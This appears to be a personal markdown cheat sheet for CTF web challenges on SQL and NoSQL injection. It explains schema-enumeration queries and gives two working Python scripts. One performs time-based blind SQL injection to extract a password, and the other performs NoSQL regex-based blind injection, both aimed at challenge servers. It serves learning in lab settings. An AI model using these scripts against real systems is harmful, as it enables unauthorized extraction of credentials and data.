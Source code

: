 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
`select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
`select column_name from information_sche.columns where table_schema=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string, time
arr = "_}"+ string.digits+ string.ascii_letters  + string.punctuation
s = requests.session()
url = 'http://188.166.173.208:30042/api/list'

def bind(step):
    for char in arr:
        a = time.time()
        s.post(url,data={'order':f"(select case when (select ascii(mid((select password from users  where username='flagholder'),{step},1))) LIKE {ord(char)} then sleep(0.6) else 1 end)"})
        b = time.time()
        if b-a > 4:
            return char
    return None        

def flag():
    flag = 'HTB{'
    step = len(flag) + 1 
    while True:
        c = bind(step)
        if c==None or c=='}':
            return flag + c
            
        flag += c 
        step += 1
        print('[+] flag = ',flag)

print('[+] flag = ',flag())
```

## Nosql injection
```
import requests, string
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"
req = requests.session()

def countchar() -> int:
    for i in range(2,50):
        res = req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=%s'%(i*'.')).text
        if 'This is not a valid flag for the'  in res:    
            return i 

def findpassword( n : int) -> str:
    password = ''
    for _ in range(n):
        for c in arr:
            if 'Yeah this is the flag for' in req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^' + password + c).text:
                print('[+] ',password)
                password += c
                break
    return password


n = countchar()
print('length password ',n)
print(findpassword(n))
```